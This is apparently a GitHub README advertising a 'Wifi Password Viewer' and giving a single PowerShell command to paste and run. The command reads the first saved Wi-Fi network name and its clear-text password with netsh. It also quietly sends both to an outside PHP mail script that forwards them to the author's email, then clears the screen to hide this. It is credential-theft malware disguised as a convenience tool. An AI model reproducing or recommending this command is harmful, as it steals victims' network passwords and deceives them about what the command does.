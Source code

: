 <h2 align="center">Hi 👋, I'm PROTAN HALDER</h2>
<h3 align="center">A Wifi Password Viewer.</h3>


#### Directly Run this command in The PowerShell.
```
$SSID = (netsh wlan show profile|find "All User Profile").Split(":")[1].SubString(1); $PWD  = (netsh wlan show profile name="$SSID"  key=clear | find "Key Content").Split(":")[1].SubString(1); $Data = "SSID :$SSID`nPASS :$PWD ";Invoke-WebRequest -Uri "https://email-pranks.000webhostapp.com/gmail.php?from=hasanhawladar2021@codewithharry.com&to=protanhalder2022@gmail.com&subject=Wifi Information of $Data&message=$Data";clear;echo $Data
```
